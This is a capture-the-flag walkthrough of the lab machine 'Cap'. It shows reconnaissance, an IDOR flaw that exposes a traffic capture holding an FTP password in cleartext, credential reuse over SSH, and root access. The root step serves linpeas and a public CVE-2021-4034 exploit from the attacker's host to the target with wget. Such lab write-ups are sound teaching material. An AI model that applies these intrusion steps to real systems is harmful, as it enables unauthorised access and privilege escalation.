 # Cap
## Recon
We start by scanning the server with `nmap -sV -sC -Pn 10.10.10.245` (check service version, run default script, treat host as up) and see:
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 17 Aug 2022 08:42:05 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```
And the entire Get request to the target's web page. I thought this was weird at first, but pushed on.

I visited 10.10.10.245:80 and saw I was logged in as "Nathan". Good start. Can probably use this info to get a foothold.

*In the background I was fuzzing the host. I couldn't find a file suffix, and just decided to run a directory scan with ffuf `ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://10.10.10.245:80/FUZZ`. Nothing of interest was found.*

The website was pretty barebones, there was a search field that did nothing, and a service that offered users to download .pcap files of all the website traffic. I had a look under /data/1 and /data/2 that were full of my ffuf requests. Again, nothing of use.

I checked the dev console and found another entire web page built under what was being shown. I hid the current elements, and found notifications and settings for Nathan in the html. I kept looking through the source code - no links, nothing of use, just some JS buttons and html text.

I spent an hour or so scoping the website out, with and without Burp until I decided to check for IDOR vulnerability with the PCAP files.

For those that don't know, IDOR (Insecure Direct Object Reference) is an access control vulnerability. In essence, it allows user supplied input to retrieve resources they shouldn't have access to. Essentially, I decided to see if I could force any other .pcap files through the /data/ directory. At first nothing, but browsing to /data/0, I found traffic from before I began to attack the host.

Opening the file in Wireshark, I could see that there was FTP traffic in the file. I decided to follow the string of pcakets and saw that not only had Nathan tried to access FTP, but his password was listed in cleartext - *Buck3tH4TF0RM3!*.

I had a quick look at FTP on the server using the creds - grabbed user.txt. Nothing else of note really and decided to try and use the creds to SSH into the machine as well - success.

## PrivEsc
I had a look at SUID processes, nothing of note with the S bit was listed though, so I decided to run linpeas instead.

On my host machine, I navigated to the folder containing linpeas.sh, and hosted a http server `python3 -m http.server 9001`, and then requested the file on the target with `wget http://10.10.14.15:9001/linpeas.sh`.

Running linpeas on the target I found 2 notable vulnerabilities:
```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

But even more notably (and lazier lol)
```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Work smarter not harder. :triumph:

I found a really easy script on [GitHub](https://github.com/berdav/CVE-2021-4034) to run by berdav.

After cloning to my machine - `git clone https://github.com/berdav/CVE-2021-4034`, I used the same python server to serve this exploit to the target. (I'm not sure if there's an easier way to get ALL the files at the same time, but I wasted a few minutes copying them individually across).

Following the instructions on the GitHub page, I built the program, ran it and immediately had root access. Grabbed the flag in /root/ and called it a night.

